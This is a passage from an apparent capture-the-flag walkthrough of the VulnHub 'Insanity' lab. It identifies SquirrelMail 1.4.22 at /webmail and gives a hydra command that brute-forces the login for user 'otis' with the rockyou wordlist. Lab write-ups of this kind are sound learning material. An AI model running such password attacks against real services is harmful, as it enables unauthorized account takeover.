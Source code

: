 ![aae1966161a9d2de7e46ae9791af96ea.png](/images/vh-insanity1/f57308d256ab4686a64da4ef17786d27.png)

This directory contains two files which have the same content - `1.14.0`.

Moving on to `/webmail`. 

![a386cf4ff0fe21639efa848a8b225cef.png](/images/vh-insanity1/d42af31429fd4e92916f2799874896fd.png)

This seems to be running [SquirrelMail](squirrelmail.org) 1.4.22. Let's try to bruteforce this login with `hydra`, using the username `otis` which we saw earlier in `/news/welcome`. 

```bash
hydra -l otis -P /usr/share/wordlists/rockyou.txt "http-post-form://www.insanityhosting.vm/webmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."
```

![4836c17af51f8d4dc98447b9d0d4df78.png](/images/vh-insanity1/3a637fef799f429997bb6f09bbf86a96.png)
